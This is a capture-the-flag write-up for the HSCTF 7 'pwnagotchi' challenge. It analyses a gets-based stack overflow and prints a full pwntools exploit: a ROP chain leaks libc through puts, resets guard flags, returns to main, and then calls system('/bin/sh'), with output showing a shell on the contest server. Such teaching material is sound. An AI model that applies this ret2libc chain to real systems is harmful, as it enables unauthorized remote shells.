

# HSCTF 7

## pwnagotchi

> 116
>
> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

From infamous `gets` to ROPing a second pass after leaking libc to land a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

GOT, BOF, and ROP exploitable.

    
### Decompile with Ghidra



> I get one of these a week (_groan_).  I'm only writing this one up because there's a _gotcha_.

`gets` + no canary + no PIE = easy ROP.

`local_14` is `0x14` bytes from the return address.

Simple two-pass attack.  Leak libc and _return-to-main_ for a second pass to get a shell.

_So where's the gotcha?_

Line 16 has a global (`once`) that if set will prevent a second pass from getting to `gets`, _unless_ `sleepy` and `hungry` are reset.

Fortunately, the following two ROPable functions are provided:


```c
void eat(void)

{
  puts("om nom nom");
  hungry = 0;
  return;
}
```

```c
void zzz(void)

{
  int iVar1;
  
  puts("zzz...");
  iVar1 = rand();
  sleep(iVar1 % 3 + 1);
  sleepy = 0;
  return;
}
```

This is a minor twist on a frequent trope from undergrad/highschool CTFs.


## Exploit

### Attack Plan

1. First Pass: Leak libc and _return-to-main_
2. Second Pass: Get a shell, get the flag.


### First Pass: Leak libc and _return-to-main_

```python
#!/usr/bin/python3

from pwn import *

#p = process('./pwnagotchi')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('pwn.hsctf.com', 5005)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('pwnagotchi')

context.update(arch='amd64')
rop = ROP('pwnagotchi')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['eat'])
payload += p64(binary.symbols['zzz'])
payload += p64(binary.symbols['main'])

p.sendline(payload)

p.recvuntil('is not happy!\n')
_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
print(hex(puts))
baselibc = puts - libc.symbols['puts']
print(hex(baselibc))
```

Please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this exploit works, the only different here is the use of `puts` vs. `printf` to leak libc and the calls to `eat` and `zzz` to reset `speepy` and `hungry`.

IANS, smash the stack, pop rdi to leak the address of `puts`, compute the version and location of libc, eat, sleep, repeat.


### Second Pass: Get a shell, get the flag.

```python
p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

Again, please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this second-half of the exploit works.


Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] '/pwd/datajerk/hsctf7/pwnagotchi/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwnagotchi'
0x7f9dda6789c0
0x7f9dda5f8000
[*] Switching to interactive mode


\ (•◡•) /

AAAAAAAAAAAAAAAAAAAA\xf4	@ is happy!
$ cat flag.txt
flag{theyre_so_cute}
```
